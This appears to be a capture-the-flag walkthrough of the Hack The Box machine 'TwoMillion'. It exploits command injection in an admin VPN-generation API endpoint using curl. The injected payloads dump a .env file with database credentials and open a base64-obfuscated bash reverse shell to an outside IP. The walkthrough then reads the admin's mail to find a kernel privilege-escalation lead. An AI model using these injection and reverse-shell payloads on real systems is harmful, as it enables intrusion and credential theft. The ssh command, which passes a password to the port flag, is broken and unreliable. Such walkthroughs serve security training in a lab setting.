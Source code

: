 If this VPN is being generated via the exec or system PHP function and there is insufficient filtering in place - which is possible as this is an administrative only function - 
it might be possible to inject malicious code in the username field and gain command execution on the remote system.
Let's test this assumption by injecting the command ;ls -laF; after the username.

> There is a `.env` file ! Secrets and critical information, here we come !

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;cat .env;"}' | jq
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

## User Flag

Now that we now that this endpoint is vulnerable to command injection, we can use it to get a reverse shell.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTAvMTIzNCAwPiYxCg==' | base64 -d | bash;"}' | jq
```

Otherwise, we can directly connect to host with :

```bash
ssh admin@2million -p SuperDuperPass123
cat user.txt
```

## Root Flag

We now have to elevate our privileges to root. Let's see what we can do. You can search for files or folders. Our way will be to search for mails.

```bash
cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

> We can see that the admin is working on a DB migration and that the OS needs to be upgraded. We can use this information to escalate our privileges.

```bash
uname -r
```

